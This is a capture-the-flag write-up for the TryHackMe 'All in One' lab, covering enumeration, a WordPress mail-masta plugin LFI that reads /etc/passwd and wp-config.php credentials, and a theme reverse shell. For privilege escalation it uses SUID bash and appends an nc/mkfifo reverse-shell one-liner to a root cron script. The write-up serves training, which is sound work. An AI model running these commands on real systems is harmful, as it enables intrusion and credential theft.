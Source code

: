 # 18 - All in One

Room link --> [here](https://tryhackme.com/room/allinonemj)

## Enumeration

#### nmap scan

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nmap 10.10.123.230 -sS -T4 -Pn -n -p- -vv --min-rate 10000

# outputs
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```
{% endcode %}

#### ffuf enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
ffuf -u http://10.10.123.230/FUZZ -c -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -fc 400
# outputs..
wordpress               [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 153ms]
hackathons              [Status: 200, Size: 197, Words: 19, Lines: 64, Duration: 152ms]

# /wordpress enumeration.
ffuf -u http://10.10.123.230/wordpress/FUZZ -c -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -fc 400
# outputs..
wp-content
wp-includes
wp-admin
```
{% endcode %}

We discovered 2 results (wordpress and hackathons).

#### wpscan

{% code overflow="wrap" lineNumbers="true" %}
```bash
# enumerating usernames
wpscan --url http://10.10.123.230/wordpress --enumerate u, ap # ap is for allplugins.

# outputs
[i] User(s) Identified:
[+] elyana

# vulnerabilities:
# there is a mail-masta plugin that is vulnerable to LFI.
[i] Plugin(s) Identified:
[+] mail-masta
```
{% endcode %}

#### /hackathons

When navigating to "/hackathons":

{% code overflow="wrap" lineNumbers="true" %}
```bash
<!-- Dvc W@iyur@123 -->
<!-- KeepGoing -->
# the h1 tag says: Damn how much I hate the smell of Vinegar :/ !!!
# which suggest this is a vinegar cipher text.
```
{% endcode %}

Visit this site --> [https://cryptii.com/pipes/vigenere-cipher](https://cryptii.com/pipes/vigenere-cipher)

I used `Dvc W@iyur@123` as the cipher text and `KeepGoing` as key.

<figure><img src=".gitbook/assets/image (153).png" alt=""><figcaption><p>got the key.</p></figcaption></figure>

### Initial Access method 1

I tried the key: `H@ckme@123` and username `elyana` in the wp-adminn login page, and it worked.

### Initial Access method 2

We could also leverage the "mail-masta" plugin LFI vulnerability.

I did a `searchsploit mail masta` and got some results.

<figure><img src=".gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" lineNumbers="true" %}
```bash
# exploit.
# we were able to execute cmds.
curl http://10.10.123.230/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```
{% endcode %}

<figure><img src=".gitbook/assets/image (155).png" alt=""><figcaption></figcaption></figure>

We can try PHP filters on the LFI:

{% code overflow="wrap" lineNumbers="true" %}
```bash
curl http://10.10.123.230/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php

# outputs.
[..redacted..]5kIGluY2x1ZGVkIGZpbGVzLiAqLw0KcmVxdWlyZV9vbmNlIEFCU1BBVEggLiAnd3Atc2V0dGluZ3MucGhwJzsNCg==

# decode the base64 and gete the db creds, which are also the wordpress login creds.
echo '[..redacted..]5kIGluY2x1ZGVkIGZpbGVzLiAqLw0KcmVxdWlyZV9vbmNlIEFCU1BBVEggLiAnd3Atc2V0dGluZ3MucGhwJzsNCg==` | base64 -d

# outputs..
/** MySQL database username */
define( 'DB_USER', 'elyana' );

/** MySQL database password */
define( 'DB_PASSWORD', 'PASSWORD' );
```
{% endcode %}

After login to the wordpress dashboard, goto "Appearance tab", "Theme Editor", then select the "404.php" and replace the php code with nishang reverse shell. Setup a nc listener to catch the shell.

<figure><img src=".gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

And we got a shell.

## Priv Esc

### Method 1

Finding SUID binaries..

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
find / -user root -perm -4000 -exec ls -l {} \; 2>/dev/null

# outputs
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/chmod
-rwsr-sr-x 1 root root 400624 Apr  4  2018 /usr/bin/socat
```
{% endcode %}

"/bin/bash" stood out, we can execute bash with privileges.

`/bin/bash -p` .

<figure><img src=".gitbook/assets/image (157).png" alt=""><figcaption></figcaption></figure>

The flags are in base64 format.

### Method 2

`/bin/chmod` - we can just chmod for&#x20;

### Method 3

The socat binary: check gtfobin.

### Method 4

When you `cat /etc/crontab` - there is a script running every minute as root, and everyone has access and can modify it, so we just edit and put a reverse shell in it.

`echo "mkfifo /tmp/kirxhbg; nc 10.18.88.214 4445 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg" >> /var/backups/script.sh` .

### Method 5

#### Priv Esc from www-data to elyana

The hint.txt file in the elyana home directory says to look for elyana credentials which is hidden in the system somewhere. So the best way to do this is to find all files owned by "elyana" and is readable by the "www-data" user.

{% code overflow="wrap" lineNumbers="true" %}
```bash
find / -user elyana -type f -readable -exec ls -ald {} \; 2>/dev/null

# outputs
-rw-r--r-- 1 elyana elyana 220 Apr  4  2018 /home/elyana/.bash_logout
-rw-rw-r-- 1 elyana elyana 59 Oct  6  2020 /home/elyana/hint.txt
-rw-r--r-- 1 elyana elyana 807 Apr  4  2018 /home/elyana/.profile
-rw-r--r-- 1 elyana elyana 0 Oct  5  2020 /home/elyana/.sudo_as_admin_successful
-rw-r--r-- 1 elyana elyana 3771 Apr  4  2018 /home/elyana/.bashrc
-rwxrwxrwx 1 elyana elyana 34 Oct  5  2020 /etc/mysql/conf.d/private.txt
```
{% endcode %}

And there is a `/etc/mysql/conf.d/private.txt` file that contains credentials, tried it for ssh and it worked.

{% code overflow="wrap" lineNumbers="true" %}
```
bash-4.4$ cat /etc/mysql/conf.d/private.txt
cat /etc/mysql/conf.d/private.txt
user: elyana
password: E@syR18ght
```
{% endcode %}

#### Priv Esc from elyana to root

`sudo -l` - we can exploit the socat binary.












